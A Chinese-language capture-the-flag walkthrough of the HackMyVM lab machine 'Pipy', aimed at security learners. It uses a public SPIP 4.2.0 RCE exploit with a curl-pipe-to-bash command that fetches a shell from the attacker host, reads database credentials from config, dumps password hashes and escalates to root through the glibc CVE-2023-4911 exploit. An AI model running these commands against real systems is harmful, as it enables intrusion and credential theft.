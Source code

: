 # Pipy

2025.03.27 https://hackmyvm.eu/machines/machine.php?vm=Pipy

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

cms 版本 SPIP 4.2.0 有 RCE https://www.exploit-db.com/exploits/51536

```
python3 51536.py -u http://192.168.5.39/ -c 'curl http://192.168.5.3/shell/5.3/8888.sh|bash' -v
```

发现数据库连接信息：

```
www-data@pipy:/var/www/html$ cat ./config/connect.php
<?php
if (!defined("_ECRIRE_INC_VERSION")) return;
defined('_MYSQL_SET_SQL_MODE') || define('_MYSQL_SET_SQL_MODE',true);
$GLOBALS['spip_connect_version'] = 0.8;
spip_connect_db('localhost','','root','dbpassword','spip','mysql', 'spip','','');
```

进入到数据库 root:dbpassword ，拿到用户表：

```
MariaDB [spip]> select id_auteur, nom, bio, pass from spip_auteurs;
+-----------+--------+-----+--------------------------------------------------------------+
| id_auteur | nom    | bio | pass                                                         |
+-----------+--------+-----+--------------------------------------------------------------+
|         1 | Angela |     | 4ng3l4                                                       |
|         2 | admin  |     | $2y$10$.GR/i2bwnVInUmzdzSi10u66AKUUWGGDBNnA7IuIeZBZVtFMqTsZ2 |
+-----------+--------+-----+--------------------------------------------------------------+
```

切换到 angela 用户，拿到 user flag:

```
angela@pipy:~$ cat user.txt
dab37650d43787424362d5805140538d
```

glibc 存在内核漏洞 https://github.com/leesh3288/CVE-2023-4911 将 zip 下载到目标机器，解压 make 等待，最终拿到 root 权限。

root flag：

```
# cat root.txt
ab55ed08716cd894e8097a87dafed016
```
